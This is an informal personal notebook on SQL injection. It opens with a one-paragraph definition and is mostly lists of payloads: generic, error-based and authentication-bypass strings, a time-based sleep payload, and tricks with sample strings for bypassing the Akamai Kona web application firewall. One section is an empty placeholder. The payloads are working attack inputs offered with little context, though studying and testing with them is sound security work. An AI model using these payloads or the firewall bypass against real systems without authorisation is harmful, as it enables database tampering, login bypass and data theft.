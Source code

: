    # Klein
    Calvin Security Learning stuff lol
    NOTEBOOK sorta, slightly unorganized, catagorized but could be neater.

    "-" is a makeshift bulletpoint, not apart of whats typed after. eg 
    -  'lol = "'lol" 
    and not =/=
    "-  'lol"







    #SQL Injection

    SQLi is a security weakness which allows attackers to control and applications database and allowing them to,
    for instance modify data or change the database applications behaviour by tricking the database into allowing 
    sending SQL commands.

    Some I like to give a crack are;




Generic SQL Injection Payloads

- ' or '
- OR "" = "
- '=0--+
- 'LIKE'
- - ' AND id IS NULL; --
- '''''''''''''UNION SELECT '2


Generic Error Based Payloads

- OR 1=1
- OR 1=1-- 
- OR 3409=3409 AND ('pytW' LIKE 'pytW
- %' AND 8310=8310 AND '%'='
- AND 1=1 AND '%'='


Authentication Based Payloads

- admin') or ('1'='1'--
- or true--
- admin') or ('1'='1'#
- ' or ''&'
- admin') or ('1'='1'/
 
 
Ordre and Union based palloads

  Open Linux VM and check which ones had the most promising outcomes based on previous use cases Novemeber calvin
  
-
-
-
-
-


Akamai Kona Bypass

MID instead of SUBSTRING
LIKE instead of =
/**/ instead of a space
CURRENT_USER instead of CURRENT_USER()
" instead of '


       444/**/OR/**/MID(CURRENT_USER,1,1)/**/LIKE/**/"p"/**/#
       
       OR/**/3409LIKE3409/**/AND/**/("pytW"/**/LIKE/**/"pytW







test' or us.username like '%' and sleep(42_='1


AND 1=1 AND '%'='


























